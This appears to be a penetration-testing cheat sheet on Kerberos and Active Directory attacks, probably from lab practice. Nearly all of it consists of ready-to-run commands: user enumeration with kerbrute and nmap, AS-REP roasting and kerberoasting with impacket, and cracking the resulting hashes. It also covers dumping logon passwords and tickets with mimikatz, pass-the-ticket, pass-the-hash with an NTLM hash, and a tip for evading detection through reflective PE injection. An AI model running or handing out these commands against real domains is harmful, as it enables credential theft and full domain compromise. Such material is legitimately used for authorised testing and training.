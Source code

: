 ### Attack privilege requirements 

-  **Kerbrute Enumeration** - No domain access required 
-   **Pass the Ticket** - Access as a user to the domain required
-   **Kerberoasting** - Access as any user required
-   **AS-REP Roasting** - Access as any user required  
-   **Golden Ticket** - Full domain compromise (domain admin) required 
-   **Silver Ticket** - Service hash required 
-   **Skeleton Key** - Full domain compromise (domain admin) required

### Kerberos attacks

1. If pre-auth not enabled -> request the TGT -> by decrypting the session key guess the user password (hashcat) (**As-rep roasting**)
2. (Not common but, need to compromise a high priv account) if we can crack or get the krbtgt account password -> create our own ticket and pretend to be an admin (**Golden ticket** )
3.  Request the Service ticket -> try to crack the service password (**Kerberoasting**)
4. Having a service account password we can create our own ticket (**Silver ticket**)

### Non-preauth (Not common)

```
GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
```

### Abusing Pre-auth

kerberos will respond with KRB5KDC_ERR_PREAUTH_REQUIRED if the user is valid
and KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN for invalid user

```kerbrute
kerbrute userenum --dc 10.10.255.139  -d CONTROLLER.local /usr/share/wordlists/dirb/active_directory/thm_users.txt
```


```nmap
nmap 10.10.255.139 -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='CONTROLLER.local',userdb='/usr/share/wordlists/dirb/active_directory/thm_users.txt'
```

```metasploit
use auxiliary/gather/kerberos_enumusers
```


### Kerberoasting

```impacket
GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.255.139 -request
```

on local machine

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```
```mimikatz
kerberos::list /export
```

then

```hashcat
john --format=krb5tgs hash_sql --wordlist=/tmp/Pass.txt
```

#### Cached Credential Retriaval
avoid executing mimikatz as a standalone application

https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

passwords of currently logon users

```mimikatz
sekurlsa::logonpasswords
```

steal currently stored tickets

```mimikatz
sekurlsa::tickets
```

this can be used to pass the ticket


### Pass the Ticket
dump the tickets from the LSAS memory

```1
sekurlsa::tickets /export
```

```2
kerberos::ptt <ticket>
```

check

```
klist
```


#### Pass the hash

```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```


